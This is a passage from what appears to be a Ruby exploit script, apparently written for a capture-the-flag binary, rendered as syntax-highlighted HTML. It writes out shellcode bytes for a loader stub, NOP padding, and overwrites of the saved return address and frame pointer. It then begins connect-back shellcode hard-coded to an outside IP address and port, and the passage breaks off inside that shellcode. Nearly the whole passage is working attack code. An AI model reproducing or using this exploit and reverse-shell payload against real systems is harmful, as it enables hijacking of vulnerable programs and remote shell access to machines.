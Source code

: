 <span class="lnr">122 </span>  <span class="Special">&quot;</span><span class="Special">\xbe\x00\x00\x00\x41</span><span class="Special">&quot;</span>     + <span class="Comment"># mov esi, 0x41000000</span>
<span class="lnr">123 </span>  <span class="Special">&quot;</span><span class="Special">\xba\x00\x20\x00\x00</span><span class="Special">&quot;</span>     + <span class="Comment"># mov edx, 0x2000</span>
<span class="lnr">124 </span>  <span class="Special">&quot;</span><span class="Special">\x0f\x05</span><span class="Special">&quot;</span>                 + <span class="Comment"># syscall - read</span>
<span class="lnr">125 </span>  <span class="Special">&quot;</span><span class="Special">\x56\xc3</span><span class="Special">&quot;</span>                 + <span class="Comment"># push esi / ret</span>
<span class="lnr">126 </span>  <span class="Special">&quot;</span><span class="Special">\xc3</span><span class="Special">&quot;</span>                     + <span class="Comment"># ret</span>
<span class="lnr">127 </span>
<span class="lnr">128 </span>  <span class="Special">&quot;</span><span class="Special">\xcd\x03</span><span class="Special">&quot;</span> <span class="Comment"># int 3</span>
<span class="lnr">129 </span>))
<span class="lnr">130 </span>
<span class="lnr">131 </span><span class="Comment"># The 'decryption' function requires some NOPs (I think 6) followed by a return</span>
<span class="lnr">132 </span><span class="Comment"># to identify the end of an encrypted function</span>
<span class="lnr">133 </span>my_print(encode_shellcode((<span class="Special">&quot;</span><span class="Special">\x90</span><span class="Special">&quot;</span> * <span class="Constant">10</span>) + <span class="Special">&quot;</span><span class="Special">\xc3</span><span class="Special">&quot;</span>))
<span class="lnr">134 </span>
<span class="lnr">135 </span><span class="Comment">## Increment the return address</span>
<span class="lnr">136 </span>edit_memory(<span class="Type">REAL_RETURN_ADDR</span>, <span class="Type">DESIRED_RETURN_ADDR</span>, <span class="Type">RETURN_OFFSET</span>)
<span class="lnr">137 </span>edit_memory(<span class="Type">REAL_FP</span>, <span class="Type">DESIRED_FP</span>, <span class="Type">FP_OFFSET</span>)
<span class="lnr">138 </span>
<span class="lnr">139 </span><span class="Comment"># Pad up to exactly 0x300 bytes</span>
<span class="lnr">140 </span><span class="Statement">while</span>(<span class="Identifier">@@n</span> &lt; <span class="Constant">0x300</span>)
<span class="lnr">141 </span>  my_print(encode_shellcode(<span class="Special">&quot;</span><span class="Special">\x90</span><span class="Special">&quot;</span>))
<span class="lnr">142 </span>  <span class="Identifier">@@n</span> += <span class="Constant">1</span>
<span class="lnr">143 </span><span class="Statement">end</span>
<span class="lnr">144 </span>
<span class="lnr">145 </span><span class="Comment"># Add the final newline, which triggers the overwrites and stuff</span>
<span class="lnr">146 </span>puts()
<span class="lnr">147 </span>
<span class="lnr">148 </span><span class="Comment"># This is standard shellcode I found online and modified a tiny bit</span>
<span class="lnr">149 </span><span class="Comment">#</span>
<span class="lnr">150 </span><span class="Comment"># It's what's read by the 'loader'.</span>
<span class="lnr">151 </span><span class="Type">SCPORT</span> = <span class="Special">&quot;</span><span class="Special">\x41\x41</span><span class="Special">&quot;</span> <span class="Comment"># 16705 */</span>
<span class="lnr">152 </span><span class="Type">SCIPADDR</span> = <span class="Special">&quot;</span><span class="Special">\xce\xdc\xc4\x3b</span><span class="Special">&quot;</span> <span class="Comment"># 206.220.196.59 */</span>
<span class="lnr">153 </span>puts(<span class="Special">&quot;&quot;</span> +
<span class="lnr">154 </span>  <span class="Special">&quot;</span><span class="Special">\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a</span><span class="Special">&quot;</span> +
<span class="lnr">155 </span>  <span class="Special">&quot;</span><span class="Special">\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0</span><span class="Special">&quot;</span> +
<span class="lnr">156 </span>  <span class="Special">&quot;</span><span class="Special">\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24</span><span class="Special">&quot;</span> +
